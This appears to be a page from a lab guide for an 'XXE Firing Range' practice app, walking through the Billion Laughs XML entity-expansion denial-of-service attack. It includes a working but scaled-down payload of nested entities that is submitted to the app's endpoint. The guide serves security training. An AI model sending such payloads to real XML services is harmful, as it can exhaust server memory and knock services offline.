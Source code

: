 ```yaml
---
title: "Billion Laughs"
weight: 50
---
```


{{% notice warning %}}
The purpose of this exploit is to cause a Denial-of-Service.
{{% /notice %}}

{{% notice note %}}
Make sure you are on the Billion Laughs (`/billion-laughs.do`) page of the XXE Firing Range app
{{% /notice %}}

To show the power of this attack without actually bringing down the server we are going to pare down the submission. The quinessential billion laughs attack defines 10 entities and once expanded will consume around 3GB of server memory. Our attack will only define 3 entities.

Sumit the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY a0 "lol" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```

As shown below the webserver expanded each of the entities to create a long string. Now imagine the length of the string with just a couple more expansions.

![Billion Laughs Result](/static/img/billion_laughs_result.png)
